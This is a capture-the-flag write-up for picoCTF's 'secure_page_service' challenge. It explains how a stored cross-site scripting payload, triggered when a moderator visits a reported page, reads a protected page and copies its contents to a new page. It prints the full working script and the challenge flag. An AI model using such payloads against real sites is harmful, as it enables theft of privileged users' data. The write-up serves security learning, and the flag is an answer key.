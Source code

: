 # secure_page_service (100)

The important thing to note in this problem is that you can make the moderator visit any page you have access to, and that moderators can visit any page.  This means that if you make one page access another, you can make a mod read any page.  You can futher exploit this by printing it to a new page.

The hint is important because it shows that HTML is rendered in the viewer.  Additionally, we can extend this to the fact that JS will be executed as well.

Putting these facts together, all we need to do is write a script that uses cross-site scripting to take the contents of the target page and print it into the contents of a new page.

By playing around with the service and monitoring what requests are made for different operations, we can find that pages are accessed via the request `GET /view_page.php?id=[id]` and that new pages are created via the request `POST /create_page.php`, with form data set for `page_id`, `contents`, and `password`.

This problem can be solved by putting the following script on any page:

```
<script>
var xhr = new XMLHttpRequest();
xhr.onload = function(){
    var xhr = new XMLHttpRequest();
    xhr.open("POST", "http://sps.picoctf.com/create_page.php", true);
    var formData = new FormData();
    formData.append("page_id", "---any empty page id here---");
    formData.append("contents", this.responseText);
    formData.append("password", "");
    xhr.send(formData);
}
xhr.open("GET", "http://sps.picoctf.com/view_page.php?page_id=43440b22864b30a0098f034eaf940730ca211a55", true);
xhr.send();
</script>
```

This must be saved to the page *with a password*, or else the user will trip the JS themselves.  After creating the page, the user just needs to try to visit it and report it to the moderator.  Then the flag, `wow_cross_site_scripting_is_such_web`, will be alerted when visiting the page provided in the `formData.append("page_id", ...)` line.